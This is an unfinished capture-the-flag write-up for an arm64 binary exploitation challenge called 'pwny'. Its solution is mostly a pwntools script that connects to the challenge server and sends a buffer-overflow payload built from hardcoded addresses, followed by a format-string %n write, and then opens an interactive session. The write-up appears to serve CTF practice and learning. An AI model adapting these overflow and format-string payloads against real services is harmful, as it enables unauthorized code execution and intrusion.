 # pwny

## problem

Is this the pwn challenge we've all been waiting for?

- [chal](./chal)

## solution

first off, this is aarch64/arm64 pwn

todo: finish this writeup

```py
from pwn import *

context.arch = 'arm64'

context.bits = 64
context.endian = 'little'

p = remote("155.248.203.119", 42051)

p.sendline(p32(0x41105c) + b'\x00\x00\x00\x00' + cyclic(56) + p32(0x411058) + b'\x00\x00\x00\x00' + p64(0x4007ec))
p.sendline(b"%10$n%201527x%8$n")

p.interactive()
```
